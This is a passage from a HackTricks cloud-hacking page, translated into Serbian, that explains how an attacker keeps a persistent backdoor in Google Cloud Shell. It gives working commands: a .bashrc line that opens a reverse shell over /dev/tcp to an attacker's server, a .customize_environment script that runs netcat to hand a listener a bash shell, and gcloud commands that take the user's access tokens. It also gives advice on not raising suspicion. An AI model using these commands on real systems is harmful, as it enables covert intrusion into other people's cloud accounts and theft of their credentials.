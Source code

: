 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Za više informacija proverite:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) vam pruža pristup komandnoj liniji vašim cloud resursima direktno iz vašeg pregledača bez ikakvih povezanih troškova.

Možete pristupiti Google-ovom Cloud Shell-u iz **web konzole** ili pokretanjem **`gcloud cloud-shell ssh`**.

Ova konzola ima neke zanimljive mogućnosti za napadače:

1. **Svaki Google korisnik sa pristupom Google Cloud-u** ima pristup potpuno autentifikovanoj Cloud Shell instanci (Servisni nalozi mogu, čak i kao vlasnici organizacije).
2. Ta instanca će **održavati svoj home direktorijum najmanje 120 dana** ako ne dođe do aktivnosti.
3. **Nema mogućnosti za organizaciju da prati** aktivnost te instance.

To u suštini znači da napadač može postaviti backdoor u home direktorijum korisnika i sve dok se korisnik povezuje na GC Shell svake 120 dana, backdoor će preživeti i napadač će dobiti shell svaki put kada se pokrene samo tako što će uraditi:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Postoji još jedna datoteka u home folderu pod nazivom **`.customize_environment`** koja, ako postoji, će biti **izvršena svaki put** kada korisnik pristupi **cloud shell-u** (kao u prethodnoj tehnici). Samo umetnite prethodni backdoor ili jedan poput sledećeg da biste održali persistenciju sve dok korisnik "često" koristi cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Važno je napomenuti da se **prvi put kada se izvrši akcija koja zahteva autentifikaciju**, u pretraživaču korisnika pojavljuje prozor za autorizaciju. Ovaj prozor mora biti prihvaćen pre nego što se komanda može izvršiti. Ako se pojavi neočekivani prozor, to može izazvati sumnju i potencijalno kompromitovati metodu postojanosti koja se koristi.
{% endhint %}

Ovo je prozor koji se pojavljuje prilikom izvršavanja `gcloud projects list` iz cloud shell-a (kao napadač) u korisničkoj sesiji pretraživača:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Međutim, ako je korisnik aktivno koristio cloudshell, prozor se neće pojaviti i možete **prikupiti tokene korisnika sa**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Kako se uspostavlja SSH veza

U osnovi, koriste se ova 3 API poziva:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (omogućava vam da dodate svoj javni ključ koji ste kreirali lokalno)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (omogućava vam da pokrenete instancu)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (prikazuje vam IP adresu google cloud shell-a)

Ali možete pronaći dodatne informacije na [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Reference

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
